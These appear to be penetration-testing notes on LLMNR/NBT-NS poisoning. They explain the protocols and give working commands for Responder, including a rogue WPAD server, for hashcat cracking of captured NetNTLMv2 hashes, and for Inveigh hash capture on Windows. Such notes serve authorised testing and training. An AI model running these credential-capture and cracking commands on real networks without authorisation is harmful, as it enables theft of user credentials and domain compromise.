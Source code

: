# LLMNR Poisoning

- A Man-in-the-Middle attack on Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) broadcasts
- This attack may provide low-privileged or administrative level password hashes that can be cracked offline or even cleartext credentials.
- LLMNR and NBT-NS are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.
- LLMNR is a protocol that allows both IPv4 and IPv6 hosts
- If a machine attempts to resolve a host but DNS resolution fails, typically, the machine will try to ask all other machines on the local 
network for the correct host address via LLMNR. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local
link to perform name resolution for other hosts. It uses port 5355 over UDP natively.
- If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. NBT-NS utilizes port 137 over UDP.
- You dont need to be local admin.

### Issue

- When LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply.
- So, we can an authoritative name resolution source in the broadcast domain by replying to LLMNRand NBT-NS as if we know the answer.
- The victim will share their NetNTLM hash if the requested host requires authentication actions.
- We can then take the hash and try to crack it offline or use it in SMB relay attack or use it in different protocol like LDAP on the same host.
- LLMNR/NBNS spoofing combined with a lack of SMB signing can often lead to administrative access on hosts within a domain.
- For linux, we will use `Responder` and for windows we will use `Inveigh`

### Attack from Linux

```shell
 # /usr/share/responder/logs is the logs dir where it will store hashes etc
 sudo responder -I <interface>
 
 # When a device is set to "Auto-detect" proxy settings, it will try to find a 
 # WPAD server on the network. The -w flag in Responder starts a rogue WPAD server.
 # WPAD is a protocol that allows clients to automatically discover and configure proxy 
 # settings. When a device (e.g., a Windows machine) tries to detect a proxy server, it 
 # will send a WPAD request on the network. If Responder is running with the -w flag, it will 
 # respond to this request with a malicious wpad.dat file. This file contains instructions
 # telling the client to use the attacker’s proxy (the one running Responder) for all web traffic.
 ```

Note:

    - NetNTLMv2 hashes are very useful once cracked, but cannot be used for techniques such as pass-the-hash.
    - Pass-the-hash attack works on NTLMv1 protocol.
    - NTLMv2 includes a challenge-response mechanism where the client and the server both use a nonce (random number) 
    generated by the server as part of the authentication process.
    - The NTLMv2 response is calculated using not only the password hash but also this nonce, making the hash effectively
     "tied" to a specific challenge.
    - As a result, an NTLMv2 hash is not directly reusable across different authentication attempts like an NTLMv1 hash, 
    because the challenge is unique each time.

Cracking NTLMv2 hashes using Hashcat:

```shell
 hashcat -m 5600 ntlmv2_hash /usr/share/wordlists/rockyou.txt
 ```


### Attack from Windows

```shell
 Import-Module .\Inveigh.ps1
 # start capturing
 Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
 # view unique captured hashes
 Invoke-Inveigh GET NTLMV2UNIQUE
 # see which usernames we have collected
 Invoke-Inveigh GET NTLMV2USERNAMES
 ```
